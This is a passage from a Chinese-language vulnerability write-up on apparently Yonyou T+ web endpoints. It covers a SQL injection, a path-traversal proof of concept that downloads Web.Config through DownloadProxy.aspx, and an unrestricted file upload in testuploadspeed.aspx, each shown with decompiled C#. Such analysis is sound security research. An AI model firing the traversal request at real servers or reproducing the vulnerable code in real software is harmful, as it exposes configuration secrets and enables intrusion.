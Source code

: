如果`scheduleName`参数可控即可造成sql注入。发送POST包`{"scheduleName":"xxx"}`。该漏洞已被修复，首先会对参数进行过滤。另外在GetScheduleLog实现时用了参数化查询。

```C#
    public string GetScheduleLogList(string scheduleName)
    {
      if (!string.IsNullOrEmpty(scheduleName))
        FilterInfo.FilterParameter(scheduleName); // exec、 delete、update、select、master、truncate、declare、create、xp_、current_user 都被过滤
      string empty = string.Empty;
      return this.ConvertToJsonStr(this.sm.GetScheduleLog(scheduleName));
    }
```



### Downloadproxy.aspx 任意文件下载

POC

```
/tplus/SM/DTS/DownloadProxy.aspx?Path=../../Web.Config
```

对应的代码如下

```C#
  protected void Page_Load(object sender, EventArgs e)
  {
  	string text=base.Server.UrlDecode(base.Request.QueryString["Path"]); // 获取Path参数值
  	string text2=text.SubString(text.LastIndexOf("\\")+1); 如果没有找到\就是-1，substring(0)则是原样输出字符串
  	if(text2.LastIndexOf("_")>0){ text2=text.Substring(text.LastIndexOf("_")+1) }
  	base.Response.Buffer=true;
  	base.Response.ContentType="application/octet-stream";
  	base.Response.AddHeader("Content-Disposition","attachment:filename="+base.Server.UrlPathEncode(text2));
  	base.Response.WriteFile(text,true);
  	File.Delete(text);
  	base.Response.End();
 }
```

### testuploadspeed.aspx 任意文件上传漏洞

漏洞位于`sm/upload/testuploadspeed.aspx`

```C#
  protected void Page_Load(object sender, EventArgs e)
  {
    HttpFileCollection files=HttpContext.Current.Request.Files;
    if(files.Count > 0){
      	try{
          for(int i=0;i<files.Count;i++){
            HttpPostedFile httpPostedFile=base.Request.Files[i];
            string text=base.Request.MapPath("~")+"\\Templates\\"+httpPostedFile.FileName.Substring(httpPostedFile.FileName.LastIndexOf("\\")+1);
            httpPostedFile.SaveAs(text);
            File.Delete(text);
            base.Response.Write("Success\r\n");
          }
          base.Response.End();
        }
    }
```
